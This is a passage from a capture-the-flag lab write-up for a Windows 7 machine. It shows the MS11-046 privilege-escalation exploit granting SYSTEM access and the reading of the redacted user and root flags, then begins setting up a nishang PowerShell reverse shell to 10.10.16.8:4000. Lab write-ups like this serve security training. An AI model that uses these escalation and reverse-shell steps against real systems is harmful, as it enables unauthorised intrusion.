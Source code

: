 Unfortunately, most of these exploits are unable to work or they will spawn a new system shell with root privileges, which is not what we wanted. 

Looking up Windows 7 Build 7600 exploit, we are able to discover another exploit, MS11-046.

Executing this exploit does not show any changes, but we realized that we have now obtained system privileges when we execute the ```whoami``` command.

```
c:\Windows\Temp>.\MS11-046.exe                                                          
.\MS11-046.exe                                                          
c:\Windows\System32>whoami                                   
whoami                                                       
nt authority\system
```

### Obtaining user flag

Since we have system privileges, we are now able to obtain the user flag.

```
C:\Users\babis\Desktop>type user.txt.txt                                                          
type user.txt.txt                                                          
<Redacted user flag>
```
### Obtaining root flag

Similiarly, since we have system privileges, we are able to obtain the root flag.

```
C:\Users\Administrator\Desktop>type root.txt                                                          
type root.txt                                                          
<Redacted root flag>
```
## Post-Exploitation
### Generating reverse shells using nishang

Another way of generating reverse shell is to use the [nishang repository](https://github.com/samratashok/nishang)

First, we have to copy the Invoke-PowerShellTcp.ps1 script to our desired directory

```
┌──(kali㉿kali)-[~/Desktop/nishang/Shells]
└─$ cp Invoke-PowerShellTcp.ps1 /home/kali/Desktop 
```

Afterwards, we will have to open up the powershell script in a notepad and add the following line to the end of the script.

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.8 -Port 4000
```

Now, we will open a localhost to host the Invoke-PowershellTcp.ps1 file.
